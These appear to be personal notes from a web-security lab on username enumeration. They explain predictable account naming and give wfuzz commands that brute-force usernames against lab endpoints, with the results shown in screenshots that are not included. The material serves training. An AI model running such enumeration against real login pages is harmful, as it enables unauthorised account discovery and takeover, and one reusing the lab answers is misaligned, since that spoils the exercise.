In web applications with fewer UX requirements like, for example, home banking or when there is the need to create many users in a batch, we may see usernames created sequentially.

While uncommon, you may run into accounts like `user1000`, `user1001`. It is also possible that "administrative" users have a predictable naming convention, like `support.it`, `support.fr`, or similar. An attacker could infer the algorithm used to create users (incremental four digits, country code, etc.) and guess existing user accounts starting from some known ones.

# Assessement
```shell-session
wfuzz -c -z file,/opt/useful/SecLists/Usernames/top-usernames-shortlist.txt -d "Username=FUZZ&Password=dummypass" --hs "Unknown username" http://http://94.237.53.82:49162/question1/
```

![[Pasted image 20231220093420.png]]

We have invalid username so lets fix the wfuzz

```shell-session
wfuzz -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt --hs "Invalid username." "http://94.237.53.82:49162/question1/?Username=FUZZ&Password=DoesNotMatter"
```

![[Pasted image 20231220093701.png]]

```
"Find the valid username for the web application based at subdirectory /question2/."
```

![[Pasted image 20231220094242.png]]

```shell
wfuzz -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt --hs "wronguser" -d "Username=FUZZ&Password=DoesNotMatter" "http://94.237.53.82:49162/question2/"
```

![[Pasted image 20231220094322.png]]

```
Find the valid account name for the web application based at subdirectory /question3/.
```

![[Pasted image 20231220095522.png]]

Vagrant took the most time to complete

```
Find the valid account name for the web application based at subdirectory /question4/.
```

![[Pasted image 20231220095711.png]]

![[Pasted image 20231220100319.png]]

![[Pasted image 20231220100526.png]]
